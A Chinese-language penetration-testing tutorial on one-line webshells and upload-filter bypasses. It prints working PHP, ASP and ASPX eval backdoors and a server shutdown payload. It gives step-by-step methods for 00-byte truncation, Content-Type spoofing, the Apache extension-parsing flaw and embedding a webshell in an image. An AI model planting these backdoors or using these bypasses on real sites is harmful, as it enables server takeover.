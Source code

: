 ## 一句话木马
***
### 1 以php为例
***
在渗透测试中，测试人员往往会上传一个一句话木马到服务器上从而获取系统权限。

    <?php
    @eval($_POST['s']);
    ?>

这句话的意思： 以php代码的形式，执行 method 为 POST，键为 s 的字符串。

@ 函数报错 不显示

eval() 使后面的字符串转成php代码执行。

[$_POST]( https://www.w3school.com.cn/php/php_forms.asp ) 用于收集来自method = “post”的表单的值。

表单域的名称会自动成为 $_POST 数组中的键

$_POST[‘s’]  全局变量中 

键： key = ‘s’,  

值： value = ‘echo 22’(可以是任意形式的php代码)

也就是说，可以post任意形式的php代码到web中。

冰蝎 value 开发 形成工具。

***
### 2 使用条件
***
1. 木马可以上传到服务器，且免杀。

2. 知道木马的URL。

3. 木马文件正常运行。

接下来，我们只需要向木马文件发送请求，就可以成功入侵该服务器。

以上述PHP语句为例，我们可以向它发送一个PHP语句，它便会在服务器上运行。如果我们向一台Windows系统的服务器发送"system('shutdown -s -t 0');"便可以控制这台服务器关机，如果是Linux系统的话则会稍微麻烦一点，我们首先需要获取root权限，然后才能执行关机命令。

这种木马的优点就是体积小、隐蔽性好。而相应的缺点就是过于简单，容易被网站管理员或杀毒软件查杀，且必须知道服务器所使用的语言环境，如果服务器使用的是jsp，你上传的是PHP，那么则无法成功入侵。

***

### 3 webshell

***

WebShell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WE目录下正常的网页文件混在一起，然后就可以使用浏览器或工具来访问asp或者php后门，得到一个命令执行环境，以达到控制网站服务器的目的。

通常来说，上传一句话木马通过中国菜刀连接是比较简便地拿到服务器的方法。菜刀可以连接asp、aspx、php、jsp的一句话木马。

    asp：
    <%eval request("pass")%>

    aspx:
    <%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>

    php:
    <?php @eval($_POST['pass']);?>

***

### 4 防御 上传文件过滤

***
通常会有文件类型限制、文件大小限制等过滤方式。文件类型限制最为常见，一般有前台文件扩展名检测、服务器端扩展名检测、content-type 参数检测或文件内容检测。

#### 前台脚本检测扩展名

当用户在客户端选择文件点击上传的时候，客户端还没有向服务器发送任何消息，就对本地文件进行检测来判断是否是可以上传的类型，这种方式称为前台脚本检测扩展名。

绕过前台脚本检测扩展名，就是将所要上传文件的扩展名更改为符合脚本检测规则的扩展名，通过BurpSuite工具，截取数据包，并将数据包中文件扩展名更改回原来的，达到绕过的目的。

#### Content-Type文件类型检测

Content-Type，内容类型，是网页请求中附带的参数，用于定义网络文件的类型和网页的编码，决定文件接收方将以什么形式、什么编码读取这个文件，这就是经常看到一些Asp网页点击的结果却是下载到的一个文件或一张图片的原因。

ContentType 一般参数有

application/x-cdf 应用型文件
text/HTML 文本
image/JPEG jpg 图片
image/GIF gif图片
当浏览器在上传文件到服务器的时候，服务器对说上传文件的 Content-Type 类型进行检测，如果是白名单允许的，则可以正常上传，否则上传失败。绕过 Content—Type 文件类型检测，就是用 BurpSuite 截取并修改数据包中文件的 Content-Type 类型，使其符合白名单的规则，达到上传的目的。

#### 服务器端扩展名检测

当浏览器将文件提交到服务器端的时候，服务器端会根据设定的黑白名单对浏览器提交上来的文件扩展名进行检测，如果上传的文件扩展名不符合黑白名单的限制，则不予上传，否则上传成功。

#### 文件内容检测

一般文件内容验证使用getimagesize()函数检测，会判断文件是否是一个有效的文件图片，如果是，则允许上传，否则的话不允许上传。所以经常要将一句话木马插入到一个【合法】的图片文件当中，然后用中国菜刀远程连接。

***

### 5 绕过

***
### 前台过滤绕过

#### 利用00截断上传绕过  前台检测

比如某网站的上传点采用了前端扩展名检测，只允许上传图片文件，而我们要上传一个php木马，可以按照以下步骤

php木马伪装jpg文件

先编写一个一句话木马，命名为【lubr.php.jpg】，因为扩展名检测是从文件名的右边往左读的，当读到第一个【. 】的时候，便通过扩展名确定这个文件的类型。这里就将 php 文件伪装成了jpg 文件。

BurpSuite拦截改2e为00

开启 BurpSuite 的【proxy】 功能，在选择 【lubr.php.jpg】 文件后，点击上传。

这时上传文件的数据包不会直接发往服务器，而是要经由 Burp 来发送，我们在这里可以查看和修改数据包的内容。

点击hex查看十六进制源码， 2e 改为 00。forward。

#### 截断改扩展名绕过  前台检测

与00截断类似，此方法也是通过截断数据包做修改来实现的。如果直接上传php文件，会被拦截。

先写一个php一句话木马，然后在这里命名为 lubr.jpg，而不是php文件

在BurpSuite中会抓到截取的数据包，在数据包中将所上传的文件后缀名由【.jpg】改为【.php】，点击【forward】，传递数据包，前台即可提示，上传【lubr.php】成功。

#### 绕过Content-Type检测文件类型上传

Content-Type如果为【application/octet-stream】，这一般是可运行程序（木马）的类型，因此会拒绝上传。但如果我们将其改为【image/gif】图片类型，可能就能够绕过该检测。

在BurpSuite中会抓到截取的数据包，在数据包中将所上传的文件的Content-Type由【application/octet-stream】改为【image/gif】

***
### 服务器过滤绕过

#### Apache解析漏洞
Apache 识别文件类型是从右向左识别的，如果如遇不认识的扩展名会向前一次识别，直到遇到能识别的扩展名，因为Apache认为一个文件可以拥有多个扩展名，哪怕没有文件名，也可以拥有多个扩展名。这种漏洞存在于使用module模式与php结合的所有版本的Apache。

假如某网站刚好使用了有解析漏洞版本的Apache，而且其对服务器端对【.php】文件直接上传做了过滤。

因为服务器端对【.php】上传做了过滤，因此无论怎么用BurpSuite修改都不能上传成功。

如果将该木马命名为 【lubr.php.adc】，则显示上传成功。

因为服务器端黑名单只限制了几种扩展名的上传，而其他扩展名都是合法的，不论这种扩展名是否有效，而apache却能识别无效的扩展名并不予解析，这种不对称的扩展名识别造成了上传漏洞的产生。

菜刀也不识别【.abc】，直接解析【.php】，连接成功。

#### 图片马

随便找一个图片，将其与要上传的木马置于同一文件夹下
打开cmd，进入该文件夹，输入

copy doram.jpg/b+lubr.php/a xiaoma.jpg

将【lubr.php】插入到【doram.jpg】中。其中【xiaoma.jpg】是插入后的文件。

用记事本打开【xiaoma.jpg】，发现木马插入到了文件最后。

将文件名改为【xiaoma.jpg.php】，然后上传成功，菜刀连接。

以上就是几种检测情况的绕过方法，真实情况下需各种方式配合使用。



